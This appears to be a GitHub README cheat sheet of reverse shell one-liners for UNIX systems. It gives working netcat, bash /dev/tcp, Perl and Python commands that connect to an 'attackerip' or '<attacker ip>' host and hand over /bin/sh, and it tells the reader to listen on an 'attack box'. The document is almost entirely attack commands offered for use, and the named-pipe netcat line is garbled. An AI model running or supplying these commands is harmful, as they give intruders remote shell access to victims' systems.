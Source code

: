 ## Reverse Shell One-liners
These are a list of shell one liners which be invoked on most of UNIX systems

For all these below mentioned you should be listening on your attack box 

### 1. Netcat

For old versions of netcat -
> nc attackerip 4444  -e /bin/sh
> /bin/sh | nc attackerip 4444  

This should work on most modern implementation of nc
> rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/p  

If you require to use old versions of netcat you can do so by 
> sudo apt-get install netcat-traditional

### 2. Bash

	bash -i >& /dev/tcp/<attacker ip>/4444 0>&1  

### 3. PERL  
Good ol' PERL, nearly every system has it and is a cornerstone of utility -
> perl -e 'use Socket;$i="127.0.0.1";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

### 4. Python

        python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'